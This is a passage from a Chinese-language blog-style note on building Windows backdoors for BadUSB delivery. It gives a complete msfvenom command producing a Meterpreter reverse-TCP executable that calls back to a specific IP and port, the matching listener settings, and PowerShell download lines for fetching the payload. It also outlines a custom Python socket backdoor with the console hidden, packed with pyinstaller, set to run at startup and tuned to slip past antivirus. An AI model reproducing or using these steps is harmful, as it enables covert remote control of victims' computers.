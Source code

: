 还有msf生成的后门之类的，基本上杀软一拦一个准

这时候你就会想有一个鼠标模拟该多好




## msf生成后门

生成后门

`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=47.112.188.203 lport=9999 -f exe -o ./re.exe`

设置监听

`set payload windows/x64/meterpreter_reverse_tcp`

`set lhost 47.112.188.203`

`set lport 9999`

将后门放到被攻击机上并运行，这边监听就能获得meterpreter会话

我需要的大概就是生成个后门，其余后面的提权包括创建更持久后门呀一些后渗透操作这篇里讲的我觉得算是比较清楚好懂的

https://www.cnblogs.com/diligenceday/p/11028462.html

https://www.cnblogs.com/clever-universe/p/8691365.html

## 几个方案

### python写后门

虽然上面那个powershell语句下载执行会给警告，警告powershell的可疑行为，但我发现如果分开执行的话好像是没问题的，但是下载那些使用过多的弹shell脚本，会直接被杀掉，我的想法是用python自己编写一个socket服务端与客户端交互执行命令（之前写过），隐藏gui后台运行，再打包封装成exe，，通过badusb下载执行，还可以加个开机自启动。

大致整了一下，代码就不说了，就是创建socket通信然后客户端接收指令并执行

关于powershell下载文件

`$client = new-object System.Net.WebClient`

`$client.DownloadFile('下载地址', '保存地址')`

就将要下载的文件下载到指定地址中

另外的话还有一个certutil也可以用来下载文件，不过我还没试过。

说几个比较特殊的点


pyinstaller本身是自带一个去除windows黑框的选项的

这是pyinstall的参数

1. –noconsole 没有命令框

2. –onefile 一个文件

3. –windowed 隐藏代码

4. -F 选项可以打出一个exe文件，默认是 -D，意思是打成一个文件夹。
